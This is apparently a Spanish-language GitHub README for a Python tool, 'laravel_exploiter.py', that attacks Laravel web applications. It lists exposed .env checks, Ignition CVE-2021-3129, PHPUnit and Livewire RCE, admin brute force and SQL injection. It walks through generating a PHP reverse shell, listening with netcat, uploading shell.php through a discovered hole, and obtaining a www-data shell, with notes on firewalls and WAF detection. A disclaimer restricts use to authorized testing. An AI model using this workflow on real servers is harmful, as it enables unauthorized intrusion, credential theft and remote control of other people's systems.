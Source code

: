 
```ascii
██████╗  █████╗ ███╗   ██╗██╗███████╗██╗         ██████╗  █████╗ ███╗   ███╗██╗██████╗ ███████╗███████╗
██╔══██╗██╔══██╗████╗  ██║██║██╔════╝██║         ██╔══██╗██╔══██╗████╗ ████║██║██╔══██╗██╔════╝╚══███╔╝
██║  ██║███████║██╔██╗ ██║██║█████╗  ██║         ██████╔╝███████║██╔████╔██║██║██████╔╝█████╗    ███╔╝ 
██║  ██║██╔══██║██║╚██╗██║██║██╔══╝  ██║         ██╔══██╗██╔══██║██║╚██╔╝██║██║██╔══██╗██╔══╝   ███╔╝  
██████╔╝██║  ██║██║ ╚████║██║███████╗███████╗    ██║  ██║██║  ██║██║ ╚═╝ ██║██║██║  ██║███████╗███████╗
╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝╚══════╝╚══════╝    ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝╚═╝╚═╝  ╚═╝╚══════╝╚══════╝
```

<div align="center">
  
[![Matrix SVG](https://raw.githubusercontent.com/rodrigograca31/rodrigograca31/master/matrix.svg)](https://github.com/ELDANI1)

</div>

# Laravel Security Testing Tool

Herramienta de seguridad para pruebas de penetración en aplicaciones Laravel.

## ⚠️ ADVERTENCIA LEGAL

**ESTA HERRAMIENTA ES SOLO PARA:**

- Pruebas de penetración autorizadas
- Auditorías de seguridad en sistemas propios
- Entornos de testing controlados
- Educación e investigación en seguridad

**NO UTILICES ESTA HERRAMIENTA EN SISTEMAS SIN AUTORIZACIÓN EXPLÍCITA.**

## 🚀 Características

- Detección de archivos .env expuestos
- Prueba de vulnerabilidades Laravel Ignition (CVE-2021-3129)
- Detección de PHPUnit RCE
- Prueba de Livewire RCE
- Fuerza bruta en paneles de administración
- Escaneo de inyecciones SQL
- Búsqueda de archivos sensibles
- Prueba de conexión MySQL
- Generación de reverse shell

## 📦 Instalación

### Requisitos

```bash
# Python 3.6+
python3 --version

# Dependencias
pip3 install requests

# Herramientas opcionales (recomendadas)
sudo apt install mysql-client sqlmap


# Clonar el repositorio
git clone https://github.com/ELDANI1/SCRIPS-DE-PRUEBA
cd SCRIP DE PRUEBA
LUEGO LS PARA SABER DONDE QUEDO EL ARCHIVO , Y ASI PODER VER SI FUE O NO CLONADO 

# Hacer ejecutable
chmod +x laravel_exploiter.py

# Ejecutar directamente
./laravel_exploiter.py

#Escaneo básico

python3 laravel_exploiter.py ejemplo.com

#Escaneo con credenciales de base de datos

python3 laravel_exploiter.py ejemplo.com --db-user admin --db-pass password --db-name laravel_db

#Generar reverse shell

python3 laravel_exploiter.py ejemplo.com --shell

·Todos los parámetros
bash
python3 laravel_exploiter.py https://ejemplo.com \
# --app-key "base64-app-key" \
# --db-user "usuario_db" \
# --db-pass "password_db" \
# --db-name "nombre_db"

Exposición de .env - Verifica si el archivo de configuración está accesible

Laravel Ignition RCE - Prueba CVE-2021-3129

PHPUnit RCE - Detecta eval-stdin.php expuesto

Livewire RCE - Prueba vulnerabilidades en Livewire

Fuerza bruta - Paneles de administración comunes

SQL Injection - Parámetros comunes y payloads básicos

Archivos sensibles - Lista de archivos comunes expuestos

Conexión MySQL - Solo si se proporcionan credenciales

# EJEMPLO DE SALIDA 
🚀 LARAVEL EXPLOITATION TOOL
⚠️  SOLO PARA PRUEBAS ÉTICAS EN SISTEMAS AUTORIZADOS

[*] INICIANDO EXPLOTACIÓN COMPLETA PARA: https://ejemplo.com
============================================================
[*] Verificando exposición de .env...
[+] .env EXPUESTO - Credenciales disponibles
[*] Probando Laravel Ignition RCE (CVE-2021-3129)...
[-] Error en Ignition RCE: timeout
...
[+] RESUMEN DE EXPLOTACIÓN:
[+] ENV_EXPOSED: VULNERABLE
[-] IGNITION_RCE: No vulnerable
...


🤝 Contribuciones
Las contribuciones son bienvenidas. Por favor:

# 1. Generar el shell
python3 laravel_exploiter.py ejemplo.com --shell

# El script preguntará:
# Tu IP para reverse shell: [INGRESA_TU_IP_AQUI]
# Puerto [4444]: [ENTER o ingresa otro puerto]

# 2. Poner tu máquina en escucha (en otra terminal)
nc -lvnp 4444

# 3. Subir el archivo shell.php al servidor vulnerable
# (usando alguna vulnerabilidad encontrada)

# 4. Acceder a la shell subida via navegador o curl
# http://ejemplo.com/shell.php 


## SOLO SI Encuentras que el objetivo tiene .env expuesto

#Descubres credenciales válidas en el panel de admin

#Encuentras un RCE funcionando (Ignition, PHPUnit, etc.)

#Subes el shell.php al servidor

#Accedes via navegador a http://ejemplo.com/shell.php

#Obtienes una shell en tu terminal con Netcat   


#EJEMPLO DE REVERSHELL 
# Terminal 1 - Generar shell
$ python3 laravel_exploiter.py mi-sitio.com --shell
Tu IP para reverse shell: 192.168.1.100
Puerto [4444]: 9999
[+] Reverse shell generado: shell.php
[*] Ejecuta: nc -lvnp 9999 antes de subir el shell

# Terminal 2 - Escuchar conexión
$ nc -lvnp 9999
listening on [any] 9999 ...

# Subir shell.php al servidor (usando vulnerabilidad encontrada)
# Luego acceder via: http://mi-sitio.com/uploads/shell.php

# Cuando se ejecute el shell, verás en Terminal 2:
connect to [192.168.1.100] from (UNKNOWN) [mi-sitio.com] 54322
whoami
www-data
pwd
/var/www/html


Consideraciones importantes:
Firewalls: El servidor podría tener firewalls que bloqueen conexiones salientes

Filtrado: El servidor podría filtrar/borrar archivos .php

Detección: Antivirus/WAF podrían detectar el shell

Permisos: Necesitas permisos de escritura en algún directorio web

# NFO SI PARA QUE NO FALLE KALI 
# Actualizar Kali
sudo apt update

# Instalar dependencias
sudo apt install -y python3 python3-pip mysql-client sqlmap

# Clonar el repositorio
git clone 
cd laravel-security-tool

# Instalar dependencias de Python
pip3 install requests

# Ejecutar
python3 laravel_exploiter.py ejemplo.com
